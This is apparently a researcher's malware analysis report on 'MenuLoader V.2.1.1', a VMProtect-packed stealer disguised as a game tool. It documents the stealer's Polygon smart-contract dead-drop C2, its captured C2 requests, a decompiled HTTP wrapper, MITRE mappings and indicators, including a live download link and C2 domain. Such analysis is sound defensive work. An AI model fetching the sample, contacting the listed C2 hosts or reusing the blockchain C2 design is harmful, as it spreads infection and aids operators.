# MenuLoader V.2.1.1 — VMProtect'd Trojan/Stealer

**Date:** 2026-04-25

**Author:** dd1d3 

**Sample:** `MenuLoader V.2.1.1.exe`

**Platform:** Windows x64

**Verdict:** Malware — Trojan + VMProtect obfuscation


## 1. Sample Overview

| Field | Value |
|---|---|
| Filename | `MenuLoader V.2.1.1.exe` |
| File size (packed) | 18.52 MiB |
| File size (dumped) | ~30 MiB |
| Architecture | PE64, AMD64, GUI |
| Protector | VMProtect (new)[DS] |
| Time date stamp (unpacked) | 2022-04-22 17:57:17 |
| Distribution vector | MediaFire ZIP (AES-256) |


---

## 2. Distribution

The sample was found hosted on MediaFire:
```
mediafire.com/file/6t7gicjeowunbog/MenuLoader_V.2.1.1.zip/file
```
Uploaded: **2026-04-24 03:32:55** — one day before analysis.




```
MenuLoader V.2.1.1.zip
├── Libs/                   (1.08 MB, unencrypted — Store method)
├── MonoBleedingEdge/       (1.29 MB, unencrypted — Store method)
├── Plugins/                (152 MB, unencrypted — Store method)
├── IF DOESNT WORK.txt      (AES-256 encrypted)
├── MenuLoader V.2.1.1.exe  (AES-256 encrypted, 19.4 MB)
└── Password 2026.txt       (AES-256 encrypted)
```



---

## 3. Static Analysis

Running DIE (Detect It Easy) on the packed sample:

```
File type:  PE64
File size:  18.52 MiB
OS:         Windows(Vista)[AMD64, 64-bit, GUI]
Protector:  VMProtect(new)[DS]
(Heur) Protection: Generic[Strange sections]
(Heur) Packer: Compressed or packed data [High entropy + Section 5 (".jsl") compressed]

```

**VMProtect with DS (Devirtualization Shield)** — this is the "new" VMProtect variant that applies both virtualization of code and a self-protection layer. Standard static analysis is blocked:
- Import table is either stripped or obfuscated
- Code sections are encrypted/virtualized
- Attempting manual static analysis or signature-based detection yields nothing useful



---

## 4. Dynamic Analysis — Network (FakeNet-NG)

Executed the sample inside an isolated sandbox with FakeNet-NG intercepting all traffic.

FakeNet captured a sequence of **identical JSON-RPC POST requests** sent to multiple Polygon RPC endpoints in rapid succession:

```
POST / HTTP/1.1
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Host: polygon.drpc.org
Content-Length: 136
Cache-Control: no-cache

{"jsonrpc":"2.0","method":"eth_call","params":[{"to":"0x2f20ecd0f79a22aEAD5619004c7c76FaF3890702","data":"0x27246485"}],"latest"],"id":1}
```

The same request was sent to four different Polygon RPC providers:
- `polygon.drpc.org`
- `polygon-bor-rpc.publicnode.com`
- `poly.api.pocket.network`
- `polygon-public.nodies.app`


The call method is `eth_call` — a **read-only** blockchain call that reads state from a smart contract without paying gas. The target contract address is:
```
0x2f20ecd0f79a22aEAD5619004c7c76FaF3890702

```
The `data` field `0x27246485` is a **function selector** — the first 4 bytes of the keccak256 hash of a function signature, used to identify which contract function to call.

After the Polygon RPC calls, a **second distinct request** was observed:
```
GET /cdn/status HTTP/1.1
Host: store.titanboard.one
Connection: Keep-Alive
Cache-Control: no-cache
```

This is a separate C2 check-in, discussed in section 6.



---

## 5. C2 Infrastructure — Polygon Smart Contract

### Contract Lookup

Searching the contract address on Polygonscan:
```
https://polygonscan.com/address/0x2f20ecd0f79a22aEAD5619004c7c76FaF3890702
```

| Field | Value |
|---|---|
| Contract address | `0x2f20ecd0f79a22aEAD5619004c7c76FaF3890702` |
| Chain | Polygon PoS |
| POL balance | 0 POL ($0.00) |
| Creation date | ~4 days before analysis |
| Transaction count | 0 |

**The contract has zero transactions** — meaning it was deployed and the malware reads it, but the operator has not yet used it to issue commands. This could mean the campaign is in early deployment, or the operator issues commands via a different mechanism.





### Bytecode Analysis

The contract bytecode was extracted and decompiled.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.34;

contract C2Storage {
    string private _message;
    address public owner;

    event MessageUpdated(string newMessage, address updatedBy);

    constructor() {
        owner = msg.sender;
    }

    // Function selector: 0x13852cf9
    function updateMessage(string calldata newMessage) external {
        require(
            msg.sender == owner,
            "Only owner can call this function"
        );
        _message = newMessage;
        emit MessageUpdated(newMessage, msg.sender);
    }

    // Function selector: 0x27246485
    function getMessage() external view returns (string memory) {
        return _message;
    }

    // Function selector: 0xad953a1e
    function owner() external view returns (address) {
        return owner;
    }
}


```

**Function selector `0x27246485` = `getMessage()`** — this confirms that the malware is calling `getMessage()` on the contract to retrieve a string value stored by the operator.

### C2 Mechanism

This is a **blockchain dead-drop resolver** pattern:

```
Operator                    Polygon blockchain              Infected host
   |                               |                              |
   |-- updateMessage("payload") -->|                              |
   |                               |                              |
   |                               |<-- eth_call getMessage() ----|
   |                               |--- returns "payload" ------->|
   |                               |                              |
   |                               |            malware acts on payload
```

The "payload" stored in `_message` could be:
- A C2 server address or URL
- An encryption key
- A command
- A URL to a next-stage payload

**Why blockchain for C2?**
- Public blockchain RPC endpoints are never blocked by corporate firewalls or DNS sinkholes
- The operator can update the stored value at any time with a single cheap Polygon transaction
- There is no traditional C2 server to take down for this step
- The contract address is hardcoded in the malware it cannot be changed, but the *content* can be updated freely




---

## 6. C2 Infrastructure — store.titanboard.one

The secondary network target:
```
GET /cdn/status HTTP/1.1
Host: store.titanboard.one
```

Visiting `store.titanboard.one` directly in a browser returns a JSON-RPC error response:
```json
{"jsonrpc":"2.0","error":{"code":-32600,"message":"Supplied content type is not allowed. Content-Type: application/json is required"},"id":null}
```

This confirms `store.titanboard.one` is a **live, operational JSON-RPC server**. It is not a web server it only accepts `application/json` POST requests. The malware likely uses this as the primary C2 for:
- Sending stolen data (exfiltration)
- Receiving task commands
- Heartbeat / check-in

The `/cdn/status` path suggests it masquerades as a CDN or content delivery endpoint to blend in with legitimate traffic.




---

## 7. Memory Dump & Post-Unpack Analysis

Since debugger-based unpacking failed (ScyllaHide with VMProtect profile was not sufficient to neutralize anti-debug), the sample was allowed to run and then dumped from memory using **ProcessDump**.

```
dumping process MenuLoader_V_2_1_1.exe with pid 0xe00...
... building import reconstruction table ...
dumping 'exe' at 140000000 to file 'MenuLoader_V_2_1_1_exe_PIDe00_MenuLoader.V.2.1.1.exe_140000000_x64.exe'
dumping 'dll' at 2130000 to file '...hiddenmodule_2130000_x86.dll'
dumping 'dll' at 2150000 to file '...hiddenmodule_2150000_x86.dll'
dumping 'dll' at 2160000 to file '...hiddenmodule_2160000_x64.dll'
dumping 'dll' at 2170000 to file '...hiddenmodule_2170000_x86.dll'
...
```

**Key findings from dump:**

- The unpacked main executable is **~30 MiB** (vs 18.52 MiB packed) VMProtect decrypted the payload sections at runtime
- The full Windows API import table was reconstructed by ProcessDump, revealing all loaded DLLs including cryptographic, network, and UI libraries

### Reconstructed Imports (Selected)

From the dump, the following DLLs and notably **WinINet** functions are present:

```
WININET.DLL:
  - HttpOpenRequestA
  - HttpSendRequestA
  - InternetCloseHandle
  - InternetConnectA
  - InternetOpenA
```

This confirms direct **WinINet-based HTTP communication** consistent with the FakeNet-NG observations. The malware is not using a higher-level library; it manually constructs HTTP connections, which is typical of stealers and RATs that want fine-grained control over requests.

Other notable DLLs present in memory:
- `bcrypt.dll` / `CRYPTBASE.dll` / `CRYPT32.dll` — cryptographic operations (likely for encrypting stolen data or decrypting config)
- `DPAPI.DLL` — Data Protection API, commonly used by stealers to decrypt browser-stored credentials
- `ncrypt.dll` / `ncryptssl.dll` — SSL/TLS operations

**DPAPI** is a particularly strong signal — its presence is almost exclusively associated with credential theft from browsers (Chrome, Edge, Firefox all use DPAPI to protect stored passwords and cookies).







---

## 8. Ghidra — Decompiled HTTP Function

After loading the dumped executable into Ghidra, analysis of the HTTP communication function at offset `FUN_140023920` revealed the following decompiled logic:

```c
undefined4 FUN_140023920(undefined8 hrequest, undefined8 headers,
                          undefined4 headerslenght, undefined4 param_4,
                          undefined4 param_5)
{
    undefined4 uVar1;

    if (HttpSendRequestA_exref == (code *)0x0) {
        if (DAT_14004768O == '\0') {
            FUN_140025744(0x1400428a8, 0x11, 0x79cf);
            DAT_14004768O = '\x01';
        }
        if (_DAT_140046ff0 == 0) {
            if (DAT_14004700f == '\0') {
                FUN_140025808(0x1400420b0, 0xc, 0x26c);
                DAT_14004700f = '\x01';
            }
            _DAT_140046ff0 = FUN_140020670(0x1400420b0);
        }
        HttpSendRequestA_exref = (code *)FUN_1400204a0(_DAT_140046ff0, 0x1400428a8);
        if (HttpSendRequestA_exref == (code *)0x0) {
            return 0;
        }
    }

    uVar1 = HttpSendRequestA(hrequest, headers, headerslenght, param_4, param_5);
    return uVar1;
}
```

This is a **lazy-loading / dynamic import resolution wrapper** for `HttpSendRequestA`. The pattern:
1. Check if the function pointer is already resolved (`HttpSendRequestA_exref == NULL`)
2. If not, dynamically resolve it by loading the DLL and getting the proc address via internal helpers
3. Then call the actual `HttpSendRequestA`

This is characteristic of VMProtect-protected malware even after unpacking, API calls are often wrapped in these dynamic resolution stubs to complicate analysis.

The function directly calls `HttpSendRequestA` with a handle, headers, and payload this is the core HTTP send mechanism used for C2 communication.





---

## 9. Verdict & TTPs

**Verdict: MALWARE — Trojan/Stealer**

The sample is a malicious executable disguised as a game-related tool ("MenuLoader"), protected with VMProtect to defeat static and dynamic analysis, which uses a multi-layer C2 architecture combining blockchain and a traditional HTTP server.

### MITRE ATT&CK Mapping

| Technique | ID | Description |
|---|---|---|
| Obfuscated Files or Information | T1027 | VMProtect virtualization + high entropy sections |
| Software Packing | T1027.002 | VMProtect packer |
| Virtualization/Sandbox Evasion | T1497 | Anti-debug via VMProtect DS layer |
| Web Service — Blockchain | T1102.002 | Polygon smart contract as dead-drop C2 resolver |
| Application Layer Protocol: Web Protocols | T1071.001 | WinINet HTTP for C2 communication |
| Credentials from Web Browsers | T1555.003 | DPAPI present; likely browser credential theft |
| Masquerading | T1036 | Disguised as legitimate game tool |
| Ingress Tool Transfer | T1105 | Multi-stage ZIP delivery via MediaFire |
| Encrypted Channel | T1573 | AES-256 archive encryption; HTTPS to C2 |

### Key Observations

- **Blockchain C2 (Polygon):** The operator hardcoded a Polygon smart contract address. The `getMessage()` function returns a string that the malware uses likely a C2 URL or command. The contract was freshly deployed (~4 days before analysis), indicating an active, ongoing campaign.
- **Resilient RPC querying:** Four different public Polygon RPC endpoints are tried in sequence no single point of failure for the blockchain lookup step.
- **Dual C2 architecture:** Blockchain for configuration/resolver + `store.titanboard.one` for active C2 communication. Similar to the TON DNS + direct C2 pattern seen in a previous sample
- **DPAPI imports:** Strong indicator of credential/cookie theft from browsers.
- **Hidden modules in memory:** Four injected modules at low addresses suggest process injection or internal shellcode stages that could not be fully analyzed.

---

## 10. IOCs

### Network

| Type | Value | Description |
|---|---|---|
| Domain | `store.titanboard.one` | Primary C2 server (JSON-RPC) |
| URL | `store.titanboard.one/cdn/status` | C2 check-in endpoint |
| Smart contract | `0x2f20ecd0f79a22aEAD5619004c7c76FaF3890702` | Polygon PoS C2 dead-drop |
| Wallet | `0x808E0a9d...25E89d6A9` | Contract creator/operator |

### File

| Type | Value | Description |
|---|---|---|
| Filename | `MenuLoader V.2.1.1.exe` | Main malicious executable |
| Archive | `MenuLoader_V.2.1.1.zip` | Distribution archive |
| MediaFire URL | `mediafire.com/file/6t7gicjeowunbog/MenuLoader_V.2.1.1.zip/file` | Distribution link |
| File size (packed) | 18.52 MiB | PE64 |
| File size (dumped) | ~30 MiB | Post-VMProtect unpack |
| Time date stamp | `2022-04-22 17:57:17` | Compile time (may be forged) |

### Registry / Persistence

Not confirmed in this analysis further investigation of the hidden modules required.


## Analysis Notes

This sample presented several challenges:

- **VMProtect with DS layer** blocked both static analysis and standard debugger-based unpacking (ScyllaHide with VMProtect profile was insufficient)
- The **blockchain C2** pattern is increasingly common and harder to detect/block than traditional domain-based C2
- The **hidden modules at low addresses** in the memory dump could not be fully analyzed in this session — they may contain the Trojan/Stealer payload core
- The **smart contract currently contains no stored value** (0 transactions), suggesting the operator has not yet activated this campaign fully, or uses a separate mechanism to update it

